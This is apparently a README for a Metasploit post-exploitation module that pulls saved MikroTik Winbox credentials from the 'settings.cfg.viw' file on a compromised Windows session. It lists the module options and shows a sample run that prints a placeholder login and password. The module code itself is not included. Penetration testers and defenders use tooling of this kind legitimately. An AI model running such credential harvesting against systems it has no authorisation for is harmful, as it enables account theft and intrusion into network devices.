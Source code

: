 # Metasploit - winbox_settings

Post module for Metasploit to extracts Mikrotik Winbox credentials saved in the "settings.cfg.viw" file when the "Keep Password" option is selected in Winbox.

## Module options

```
Module options (post/windows/gather/credentials/winbox_settings):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  5                yes       The session to run this module on
   VERBOSE  false            no        HexDump settings.cfg.viw files
```

## Example

```
msf6 post(windows/gather/credentials/winbox_settings) > run

[*] VERBOSE: false
[*] Checking Default Locations...
[*] C:\Users\Administrator\AppData\Roaming\Mikrotik\Winbox\settings.cfg.viw not found ....
[*] Found File at C:\Users\FooBar\AppData\Roaming\Mikrotik\Winbox\settings.cfg.viw
[+] Login: ThisIsUsername
[+] Password: ThisIsPassword
[*] Post module execution completed
```

## Author

[Pasquale 'sid' Fiorillo](https://www.pasqualefiorillo.it/)

Thanks to [ISGroup](https://www.isgroup.biz/) :heart:
